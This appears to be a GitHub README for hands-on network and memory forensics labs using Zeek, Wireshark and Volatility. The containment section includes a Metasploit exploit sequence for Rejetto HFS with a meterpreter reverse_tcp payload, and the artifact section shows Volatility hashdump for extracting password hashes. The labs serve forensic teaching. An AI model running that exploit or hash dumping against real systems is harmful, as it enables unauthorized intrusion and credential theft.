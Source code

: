 # Network and Memory Forensics: Hands-On Labs

## Overview

This repository contains detailed labs and exercises for network and memory forensics using tools like Wireshark, Zeek, and Volatility. The labs cover practical aspects of incident response, including network traffic analysis, memory dump analysis, and malware investigation.

## Table of Contents

- [Network Forensics](#network-forensics)
  - [Zeek Log Analysis](#zeek-log-analysis)
  - [Wireshark Analysis](#wireshark-analysis)
  - [File Extraction](#file-extraction)
- [Memory Forensics](#memory-forensics)
  - [Memory Dump Extraction](#memory-dump-extraction)
  - [Analyzing Memory Dumps](#analyzing-memory-dumps)
  - [Extracting Artifacts and IoCs](#extracting-artifacts-and-iocs)
- [Incident Containment and Recovery](#incident-containment-and-recovery)
- [Live Ongoing Incident Response](#live-ongoing-incident-response)
- [Contributing](#contributing)
- [License](#license)

## Network Forensics

### Zeek Log Analysis

To analyze network traffic flows with Zeek, use the following command to extract TCP connections:

```bash
zeek-cut < conn.log id.orig_h id.orig_p id.resp_p duration proto history | grep tcp
```

### Wireshark Analysis

1. **Open the PCAP file**:
   ```bash
   wireshark project1.pcap
   ```

2. **Filter TCP Handshake**:
   Use the following filter in Wireshark to isolate traffic between the source and destination IP addresses:
   ```plaintext
   ip.addr == target-source && ip.addr == target-destination
   ```

3. **Follow TCP Stream**:
   Right-click on a packet and select **Follow > TCP Stream** to view the conversation between the two IP addresses.

### File Extraction

1. **Extract HTTP Objects**:
   Navigate to **File > Export Objects > HTTP** in Wireshark to extract transferred files. Save and list the files:

   ```bash
   ls
   ```

2. **Download and Analyze Files**:
   Extract and analyze suspicious files using a Java decompiler like JD-GUI. For example, if you extracted `Exploit.jar`:

   ```bash
   java -jar jd-gui.jar Exploit.jar
   ```

## Memory Forensics

### Memory Dump Extraction

1. **Extract Memory Dump**:
   Use a tool like `mrc` to extract the memory dump:

   ```bash
   mrc --acquire memory --output suspectmachine.raw
   ```

2. **Transfer Memory Dump**:
   Transfer the memory dump to your analysis machine:

   ```bash
   ftp ip.addr
   bin
   put suspectmachine.raw
   quit
   ```

### Analyzing Memory Dumps

1. **Identify OS Profile**:
   Use `volatility` to guess the OS profile:

   ```bash
   volatility -f suspectmachine.raw imageinfo
   ```

2. **Analyze Processes**:
   List running processes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 pslist
   ```

3. **Examine Process Tree**:
   View parent-child relationships between processes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 pstree
   ```

4. **Command History**:
   Retrieve executed commands:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 cmdscan
   ```

5. **Network Connections**:
   Scan network connections:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 netscan
   ```

### Extracting Artifacts and IoCs

1. **IE History**:
   View Internet Explorer history:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 iehistory
   ```

2. **Hash Dump**:
   Dump password hashes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 hashdump
   ```

3. **Process Dump**:
   Dump specific processes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 procdump -D /tmp -p <PID>
   ```

## Incident Containment and Recovery

1. **Monitor Active Connections**:
   Use `tcpview` to observe active connections and processes. Compare with network captures.

2. **Validate Malicious Activity**:
   Use Metasploit to test vulnerabilities and confirm exploits. Example:

   ```bash
   msfconsole
   use exploit/windows/http/rejetto_hfs_exec
   set payload windows/meterpreter/reverse_tcp
   set lhost <ip.addr>
   set rhost <ip.addr>
   set rport 8081
   exploit
   ```

3. **Clean and Validate**:
   Ensure malicious files and processes are eradicated. Validate with:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 pstree
   ```

## Live Ongoing Incident Response

1. **Collect Live Data**:
   Capture live data and system information:

   ```bash
   filename.txt && netstat -an >> filename.txt && arp -n >> filename.txt && sc query >> filename.txt && systeminfo >> filename.txt
   ```

2. **Analyze Collected Data**:
   Use `volatility` to analyze memory dumps:

   ```bash
   volatility -f filename.raw --profile=Win2003SP0x86 pslist
   ```

   Compare with captured data for discrepancies.

## Contributing

Contributions are welcome! Please fork this repository and submit a pull request with any improvements or additions.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.


